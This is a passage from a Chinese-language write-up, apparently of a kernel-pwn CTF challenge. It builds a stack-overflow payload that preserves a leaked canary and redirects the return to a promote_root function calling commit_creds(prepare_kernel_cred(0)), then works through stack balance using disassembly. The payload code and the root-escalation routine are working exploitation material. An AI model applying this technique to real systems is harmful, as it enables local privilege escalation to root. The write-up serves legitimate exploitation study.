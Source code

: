 栈布局如下：

> |---ret-address---|-----rbx------|----canary---|-----size=0x40---------|

因此第8个为canary，第10个为ret-address(下标从0开始），那么的定义如下：

```c
    unsigned long long name_payload[11];
    memset(name_payload,0x90,sizeof(name_payload));
    name_payload[8] = canary;//canary
    name_payload[10] = &promote_root;//rip
```

promote_root为执行commit_creds(prepare_kernel_cred(0))的wraper函数。

promote_root的代码如下：

```c
void promote_root()
{

    int (*commit_cred)(struct cred *new);
    struct cred *(*prepare_kernel_cred)(struct task_struct *daemon);

    commit_cred = commit_cred_addr;
    prepare_kernel_cred =  prepare_kernel_cred_addr;
    (*commit_cred)((*prepare_kernel_cred)(0));
}
```

但是这个版本执行会出现问题，因为栈不平衡？为什么？我们继续分析

### 3.3. 栈平衡

首先分析下core_ioctl->core_copy_fun过程，从core_copy_fun函数的返回过程：

core_copy_fun返回后会进入如下代码执行：

```asm6502
.text:00000000000001B5
.text:00000000000001B5 loc_1B5:                                ; CODE XREF: core_ioctl+1A↑j
.text:00000000000001B5                                         ; core_ioctl+32↑j ...
.text:00000000000001B5                 xor     eax, eax
.text:00000000000001B7                 pop     rbx
.text:00000000000001B8                 retn
.text:00000000000001B8 core_ioctl      endp
```

代码会设置返回执行eax=0，pop rbx，然后执行retn，可以理解为pop rip

因此我们可以讲core_ioctl和core_copy_fun的栈一起画出来，形式如下：

> |--rip(ioctl)--|--rbx(ioctl)--|---ret-address---|--rbx--|--canary--|--size=0x40--|

现在ret-address的地址变成了promote_root函数地址，我们查看下promote_root函数：

```asm6502
.text:00000000000012A9 promote_root    proc near               ; DATA XREF: main+1AF↓o
.text:00000000000012A9
.text:00000000000012A9 commit_cred     = qword ptr -10h
.text:00000000000012A9 prepare_kernel_cred= qword ptr -8
.text:00000000000012A9
.text:00000000000012A9 ; __unwind {
.text:00000000000012A9                 endbr64
.text:00000000000012AD                 push    rbp
.text:00000000000012AE                 mov     rbp, rsp
.text:00000000000012B1                 sub     rsp, 10h
.text:00000000000012B5                 mov     rax, cs:commit_cred_addr
.text:00000000000012BC                 mov     [rbp+commit_cred], rax
.text:00000000000012C0                 mov     rax, cs:prepare_kernel_cred_addr
.text:00000000000012C7                 mov     [rbp+prepare_kernel_cred], rax
```